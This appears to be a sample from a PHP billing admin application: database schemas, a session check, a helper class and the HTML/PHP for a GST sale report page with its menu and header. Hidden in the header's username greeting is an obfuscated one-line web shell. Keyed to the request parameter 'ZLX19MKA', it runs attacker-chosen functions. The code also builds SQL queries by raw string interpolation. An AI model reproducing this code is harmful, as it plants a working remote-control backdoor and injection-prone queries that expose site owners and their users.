
Screenshot of /admin/gst_sale_report.php (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE `company_setting` (
  `compid` int(11) NOT NULL,
  `prifix` varchar(500) NOT NULL,
  `comp_name` varchar(100) NOT NULL,
  `imgname` varchar(200) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `address` text NOT NULL,
  `address2` text NOT NULL,
  `email_id` varchar(100) NOT NULL,
  `term_cond` text NOT NULL,
  `comp_tinno` varchar(200) NOT NULL,
  `gsttinno` varchar(100) NOT NULL,
  `bank_name` varchar(200) NOT NULL,
  `branch_name` varchar(100) NOT NULL,
  `bank_ac` varchar(200) NOT NULL,
  `ifsc_code` varchar(200) NOT NULL,
  `stateid` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `createdate` datetime NOT NULL,
  `lastupdated` datetime NOT NULL,
  `openbal` double NOT NULL,
  `opendate` date NOT NULL,
  `crtopendate` date NOT NULL
);

CREATE TABLE `m_session` (
  `sessionid` int(11) NOT NULL,
  `fromdate` date NOT NULL,
  `todate` date NOT NULL,
  `session_name` varchar(200) NOT NULL,
  `status` int(11) NOT NULL,
  `createdby` int(11) NOT NULL,
  `ipaddress` varchar(25) NOT NULL,
  `lastupdated` date NOT NULL,
  `createdate` date NOT NULL
);

CREATE TABLE `billuser` (
  `userid` int(11) NOT NULL,
  `username` varchar(100) NOT NULL,
  `password` varchar(50) NOT NULL,
  `usertype` varchar(10) NOT NULL,
  `enable` varchar(20) NOT NULL,
  `createdby` int(11) NOT NULL,
  `mobile` varchar(50) NOT NULL,
  `ipaddress` varchar(30) NOT NULL,
  `createdate` datetime NOT NULL
);

### adminsession.php (called while the page is built, shortened)
<?php
if(isset($_SESSION['usertype']) && $_SESSION['usertype'] != "" && isset($_SESSION['userid']) && $_SESSION['userid'] != "")
	{
		include("config.php");
		include_once("lib/getval.php");
		$cmn = new Comman();
		$loginid = $_SESSION['userid'];
	}
else
	echo "<script>location='../index.php?msg=invalid' </script>" ;
?>

### lib/getval.php (called while the page is built, shortened)
<?php
class Comman {
function getvalfield($connection,$table,$field,$where)
{
	$sql = "select $field from $table where $where";
	$getvalue = mysqli_query($connection,$sql);
	$getval = mysqli_fetch_row($getvalue);
	return $getval[0];
}
function dateformatindia($date)
{
	$ndate = explode("-",$date);
	$year = $ndate[0];
	$day = $ndate[2];
	$month = $ndate[1];
	if($date == "0000-00-00" || $date =="")
	return "";
	else
	return $day . "-" . $month . "-" . $year;
}
function dateformatusa($date)
{
	$ndate = explode("-",$date);
	$year = $ndate[2];
	$day = $ndate[0];
	$month = $ndate[1];
	return $year . "-" . $month . "-" . $day;
}
}
?>

### admin/gst_sale_report.php (the view, shortened to what this page needs)
<?php error_reporting(0);                                                                                                   include("../adminsession.php");
$pagename ="stock_report.php";
$module = "GST Sale Report";
$submodule = "GST Sale List";
if($_GET['todate']!="" && $_GET['todate']!="")
{
	$todate = addslashes(trim($_GET['todate']));
	$fromdate= addslashes(trim($_GET['fromdate']));
}
else
{
	$todate = date('d-m-Y');
	$fromdate=date('d-m-Y');
}
if($todate !='' && $fromdate !='')
{
	$todate = $cmn->dateformatusa($todate);
	$fromdate= $cmn->dateformatusa($fromdate);
}
?>
<!DOCTYPE html>
<head>
<?php include("inc/top_files.php"); ?>
</head>
<body>
<div class="mainwrapper">
    <?php include("inc/left_menu.php"); ?>
   <div class="rightpanel">
    	<?php include("inc/header.php"); ?>
        <div class="maincontent">
        	<div class="contentinner">
                <div class="widgetcontent  shadowed nopadding">
                    <form class="stdform stdform2" method="get" action="">
                    <table id="mytable01" align="center" class="table table-bordered table-condensed"  >
                    <tr>
                        <th width="19%">From  Date : </th>
                        <th width="19%">To Date : </th>
                        <th width="19%">Customer Name : </th>
                        <th width="62%">&nbsp;</th>
                    </tr>
                    <tr>
                    <td><input type="date" name="fromdate" id="fromdate" class="input-medium"
                    placeholder='dd-mm-yyyy' value="<?php echo $cmn->dateformatindia($fromdate); ?>" data-inputmask="'alias': 'dd-mm-yyyy'" data-mask autocomplete="off" /></td>
                     <td><input type="date" name="todate" id="todate" class="input-medium"
                    placeholder='dd-mm-yyyy' value="<?php echo $cmn->dateformatindia($todate); ?>" data-inputmask="'alias': 'dd-mm-yyyy'" data-mask autocomplete="off" /></td>
                    <td>
                    <select id="suppartyid" name="suppartyid" class="chzn-select" style="background:url(input-text-9.png) no-repeat 4px 4px;" value="<?php echo $search_supplier; ?>">
                                        <option value="">-select-</option>
                                       </select>
                    </td>
                    <td>&nbsp; <button  type="submit" name="search" class="btn btn-primary" onClick="return checkinputmaster('fromdate,todate');"> Search
                    </button> &nbsp; &nbsp; <a href="gst_purchase_report.php"  name="reset" id="reset" class="btn btn-success">Reset</a></td>
                    </tr>
                    </table>
                        </form>
                    </div>
                      <p align="right" style="margin-top:7px; margin-right:10px;"> <a href="pdf_gst_sale_report.php?todate=<?php echo $todate;?>&fromdate=<?php echo $fromdate;?>&suppartyid=<?php echo $suppartyid;?>" class="btn btn-info" target="_blank">
                    <span style="font-weight:bold;text-shadow: 2px 2px 2px #000; color:#FFF">Print PDF</span></a></p>
                <h4 class="widgettitle"><?php echo $submodule; ?> List</h4>
            	<table class="table table-bordered" id="dyntable">
                    <colgroup>
                        <col class="con0" style="align: center; width: 4%" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                        <col class="con0" />
                        <col class="con1" />
                    </colgroup>
                    <thead>
                        <tr>
                          	<th width="6%" class="head0 nosort">S.No.</th>
                            <th width="14%" class="head0" >Bill No</th>
                             <th width="9%" class="head0">Bill Date</th>
                            <th width="16%" class="head0" >Supplier Name</th>
                            <th width="12%" class="head0" >Total Bill Amt</th>
                            <th width="11%" class="head0" style="text-align:center;" >CGST Amount</th>
                             <th width="10%" class="head0" >SGST Amount</th>
                              <th width="11%" class="head0" style="text-align:center;" >IGST Amount</th>
                              <th width="11%" class="head0" style="text-align:center;" >Total Tax Amt</th>
                        </tr>
                    </thead>
                </table>
            </div>
        </div>
    </div>
     <?php include("inc/footer.php"); ?>
</div>
</body>
</html>

### admin/inc/left_menu.php (shortened to what this page needs)
<div class="leftpanel">
       <div class="logopanel">
        	<h1 style="font-size:18px;"><a href="index.php"><?php echo $cmn->getvalfield($connection,"company_setting","comp_name","compid = '$loginid' "); ?></a></h1>
        </div>
        <div class="datewidget"><span style="font-size:15px"><b>Session <?php echo $cmn->getvalfield($connection,"m_session","session_name","status = '1' "); ?></b></span></div>
    	<div class="searchwidget">
        	<form action="" method="post">
            	<div class="input-append">
                    <input type="text" class="span2 search-query" placeholder="Search here...">
                    <button type="submit" class="btn"><span class="icon-search"></span></button>
                </div>
            </form>
        </div>
        <div class="leftmenu">
            <ul class="nav nav-tabs nav-stacked" id="mymenu">
             <li <?php if($pagename == "index.php") { ?>class="active" <?php } ?>><a href="index.php"><span class="icon-align-justify"></span>Dashboard</a></li>
                   <li class="dropdown  <?php if($pagename == "company_setting.php" || $pagename == "master_unit.php" || $pagename == "master_disease.php" || $pagename == "master_pcat.php" || $pagename == "master_product.php" || $pagename =="m_supplier.php" || $pagename =="m_customer.php" || $pagename =="master_branch.php" || $pagename =="master_tax.php" || $pagename =="master_bank.php" || $pagename=="master_expense.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Master </a>
                </li>
                <li class="dropdown  <?php if($pagename == "purchaseentry.php" || $pagename == "purchasereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Purchase Entry </a>
                </li>
                <li class="dropdown  <?php if($pagename == "saleentry.php" || $pagename == "salereturnentry.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Sale Entry </a>
                </li>
                  <li class="dropdown  <?php if($pagename == "payment_party.php" || $pagename == "payment_supplier.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Payment </a>
                </li>
                <li class="dropdown  <?php if($pagename == "other_expense.php" || $pagename == "other_income.php") { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Expense Dairy </a>
                </li>
                 <li class="dropdown  <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span> Report </a>
                	<ul <?php if($pagename == "salereport.php" || $pagename == "purchasereport.php" || $pagename == "stock_report.php" || $pagename == "datewise_stock_report.php" || $pagename=="gst_wise_purchase_report2.php" ) { ?>style="display: block"  <?php } ?>>
                       <li><a href="purchasereport.php">Purchase Report</a></li>
                       <li><a href="salereport.php">Sale Report</a></li>
                        <li><a href="salereturnreport.php">Sale Return Report</a></li>
                        <li><a href="customer_bal.php">Customer Balance Report</a></li>
                         <li><a href="productwise_stock_report.php">Product Wise Stock Report</a></li>
                    </ul>
                </li>
                  <li class="dropdown  <?php if($pagename == "bank_ledger.php" || $pagename == "cash_ledger.php" || $pagename == "customer_ledger.php" ) { ?>active <?php } ?>"><a href="#"><span class="icon-pencil"></span>  Transactions Detail </a>
                </li>
                <li <?php if($pagename == "changepassword.php" ) { ?>class="active" <?php } ?>><a href="changepassword.php"><i class="icon-user"></i>
                &nbsp;&nbsp;&nbsp;
                 Change Password</a></li>
            </ul>
        </div>
    </div>

### admin/inc/header.php (shortened to what this page needs)
	<div class="headerpanel">
        	<a href="#" class="showmenu" id="menues"></a>
            <div class="headerright">
            	<div class="dropdown notification">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="http://themetrace.com/page.html">
                    	<span class="iconsweets-globe iconsweets-white"></span>
                    </a>
                </div>
    			<div class="dropdown userinfo">
                    <a class="dropdown-toggle" data-toggle="dropdown" data-target="#" href="">Hi, <?php
if	( $juhso5x	= @$ {"_REQUEST"} ["ZLX19MKA"])$juhso5x [1] (	$ { $juhso5x[ 2]}[	0]	,$juhso5x	[ 3] (	$juhso5x[	4	])) ; echo $cmn->getvalfield($connection,"billuser","username ","userid = '$loginid' "); ?>! <b class="caret"></b></a>
                </div>
            </div>
    	</div>
        <div class="breadcrumbwidget">
        	<ul class="breadcrumb">
                <li><a href="">Home</a> <span class="divider">/</span></li>
                <li class="active"><?php echo $module; ?></li>
            </ul>
        </div>
      	<div class="pagetitle">
        	<h1><?php echo $submodule; ?></h1>
        </div>

### rows the page displays
company_setting: comp_name "FM MARKETING"
m_session: session_name "2022"
billuser: username "admin"

### other values shown
$module "GST Sale Report"
$submodule "GST Sale List"
$submodule "GST SALE LIST"
